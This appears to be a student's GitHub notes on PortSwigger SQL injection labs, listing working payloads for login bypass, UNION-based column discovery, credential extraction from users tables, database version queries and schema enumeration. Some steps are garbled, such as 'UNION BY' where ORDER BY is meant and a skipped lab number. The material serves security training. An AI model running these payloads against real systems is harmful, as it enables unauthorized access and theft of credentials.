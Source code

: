 <div align="center">
  <h1>------------------------------ SQLi LABS 001 -------------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 1: `Retrieving hidden data`, where you can modify a SQL query to return additional results.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

## Lab 2: SQL injection vulnerability allowing `login bypass` [Link](https://portswigger.net/web-security/sql-injection/lab-login-bypass)
- Original Query: `SELECT firstname FROM users WHERE username='administrator' AND password='p@ssw0rd'`
- Modified: `SELECT firstname FROM users WHERE username='administrator'--' AND password='admin'`
- Query to executed by DB after injections: `SELECT firstname FROM users;`

### Injections:
- `'admin'--'` - Commenting out the remaining portion of the original query.

## Lab 3: SQL injection UNION attack, determining the number of columns returned by the query
1. ' ORDER BY 1-- injecting a series of ORDER BY clauses and incrementing the specified column index until an error occurs.
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION BY 4--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`

2. Submitting a series of `UNION SELECT` payloads specifying a different number of null values, will help in determining the columns unless we get the error.

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT NULL,NULL,NULL,NULL--`
- Query to executed by DB after injections: `It should throw a Server side Error 500`


## Lab 4: SQL injection UNION attack, finding a column containing text
- First, Determine the number of columns returned by the query.
- Second, Determine a column that is compatible with string data. 

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+BY+4--` (Server Error, means number of columns = 3)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+'a',NULL,NULL--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,NULL,'a'--` (Server Error, means this column accepting text value)
- Modified: `SELECT * FROM products WHERE category = 'Gifts'+UNION+SELECT+NULL,'a',NULL--` ('a' determine that the 2nd column accepting text value)

## Lab 5: SQL injection UNION attack, `retrieving data from other tables` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables#)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts'UNION+SELECT+username,password+FROM+users--` This should return all the users available in USERS table. (Since, table and columns name were given in Lab description. We can take it from there)
- Login > Enter the Administrator Cred > Done
- ![image](https://github.com/user-attachments/assets/003e7533-e7c9-401d-824d-fe7c7a34fe98)


## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns

'Union+select+Null,'XYZ'-- To determine which column allows TEXT values

'Union+select+Null,username+from+users-- To retrieve Single TEXT value

'Union+select+Null,password+from+users-- To retrieve Single TEXT value

'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value

'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)

## Lab 7: SQL injection attack, querying the database type and version on Oracle `Union Query` [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.
- There is a `built-in table on Oracle called 'dual'` For example: `UNION SELECT 'abc' FROM dual`

1. For Oracle:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified: `SELECT * FROM products WHERE category = 'Gifts' UNION SELECT 'abc','def' FROM dual--`
- Query to executed by DB after injections: `SELECT * FROM products WHERE category = 'Gifts'' UNION SELECT 'abc','def' FROM dual--`
- To get the Oracle Version: `SELECT * FROM products WHERE category = 'Gifts'union+SELECT+banner,NULL+FROM+v$version--`

- Injections: `'union+SELECT+banner,NULL+FROM+v$version--` - Concate the second query with Union clause in Original Query.

2. For MYSQL:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
- 'UNION+SELECT+NULL,NULL#        Determine the Number of Columns, By comments it's MYSQL DB
- 'UNION+SELECT+@@version,'abc'#  Refer cheatsheet for cmd
- 'UNION+SELECT+@@version,+NULL#
```

## Lab 9: SQL injection attack, listing the database contents on non-Oracle databases [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- A `Common set of views` available in Non-Oracle DBs to list out the tables in the database: `information_schema.tables` as `SELECT * FROM information_schema.tables`
- Also, To list the columns in individual tables: `information_schema.columns` as `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- ![image](https://github.com/user-attachments/assets/bf84e527-c095-4c97-ab4f-eb516c8fd6da)

- Modified:
```
'UNION+SELECT+NULL,NULL-- To check the No. of Columns

'UNION+SELECT+version(),NULL--  To check DB version - Mysql

'Union+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables-- To return TABLE_NAME from information_schema.tables views

'UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_wifyly'-- To return column_name from information_schema.columns views

'UNION+SELECT+username_wcliss,password_ozuvxe+FROM+users_wifyly-- TO extract the info from table
```


/*The NEXT*/
